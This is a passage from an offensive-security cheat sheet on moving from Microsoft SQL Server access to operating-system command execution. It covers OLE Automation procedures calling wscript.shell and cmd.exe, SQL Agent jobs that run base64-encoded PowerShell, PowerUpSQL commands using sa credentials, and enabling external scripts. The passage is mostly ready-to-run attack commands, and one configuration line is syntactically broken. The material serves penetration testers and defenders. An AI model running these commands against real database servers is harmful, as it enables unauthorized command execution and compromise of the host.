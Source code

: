 ## OLE Automation

### Execute commands using OLE automation procedures

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```

```ps1
# Enable OLE Automation
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# Execute commands
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```

## Agent Jobs

### Execute commands through SQL Agent Job service

```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem Options:
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

### List All Jobs

```ps1
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```

## External Scripts

:warning: You need to enable **external scripts**.

```sql
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```

## Python:
